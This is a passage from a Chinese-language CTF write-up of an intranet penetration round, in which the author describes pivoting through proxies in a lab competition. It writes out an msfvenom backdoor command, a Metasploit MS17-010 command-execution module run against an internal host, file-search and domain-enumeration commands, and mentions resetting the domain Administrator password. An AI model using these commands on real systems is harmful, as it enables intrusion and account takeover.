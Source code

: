 不过，由于中间接了代理，msf的传统ms17-010一直打不成功，后面就使用ms17-010的任意代码执行攻击脚本攻击。



> 这里涉及到内网穿透的一些问题，赛后总结了一下，有两种方式。
>
> 第一种方式比较复杂，就是通过`msfvenom -p linux/x64/meterpreter/bind_tcp LHOST=192.168.5.10  LPORT=12345  -f elf > bind.elf`生成一个后门，上传到第一台跳板机，然后得到第一台跳板机的metpreter，再通过配置route来打内网的6段服务器。
>
> 第二种就是直接使用msf的代理功能，直接设置一个代理`set proxies socks5:172.16.201.1:1088`即可。
>
> 不过，这两种方式都很难解决反弹shell问题，这个至今我也没想到什么好的解决方案。如果有内网渗透的大佬看到，求指导（可怜）。另外，也想问下，大家用nmap跨代理扫描时没遇到问题么？为啥今天测试的时候，各种bug。nmap自带的proxies功能貌似也不行。

没办法解决反弹的问题，我们这里需要用msf的bind tcp后门（正向后门）。

```bash
set proxies socks5:172.16.201.1:1088
use auxiliary/admin/smb/ms17_010_command
set VERBOSE 1
set DBGTRACE 1
set rhosts 192.168.6.200
set command 'net user'
set payload windows/x64/meterpreter/bind_tcp
exploit
```

`set command "for /r C:\ %i in (*flag*) do @echo %i"`

`set command "type c:\\flag.txt"`

c盘目录下存在一个flag，扫描读取即可。

不过，由于前面只是一个任意代码执行，所以没获得metpreter，很多操作很难做。我们这里最后是修改了域下的Administrator的密码，通过3389登录进去获得了最后一个flag。（赛后交流，有选手是通过ms17-010原生脚本直接获得meterpreter的。）

```bash
wmic computersystem get domain #查看当前域
net group "domain controllers" /domain
net group "domain admins" /domain
```



## 最后

整个比赛还学习了下mimikatz的使用方式，感觉这个东西在域渗透过程中也很有用。proxychains在代理转发过程中也有奇效，可惜在赛场上我的mac一直运行不起来。burpsuite的代理功能也很有趣，可以追踪很多流量。另外，跨代理的nmap扫描也有意思。这样的话，我们或许就可以通过一些公开的HTTP代理，内网渗透一些HTTP代理的内网，或者隐藏自己，进行扫描。tsh作为一个后门来持续反弹连接也是一个很好的解决方案。

和传统CTF的解题、AWD模式相比，有很大的差别，不过更贴近实战一些，能给我这种手残白帽党一个体验内网渗透的机会。

最后，整场比赛和小飘逸、煜博合作，还是很稳，致谢队友！



## 其他

MAC使用proxychains存在SIP的问题，需要手动关闭。

https://zhuanlan.zhihu.com/p/21281236

https://github.com/mrdulin/blog/issues/18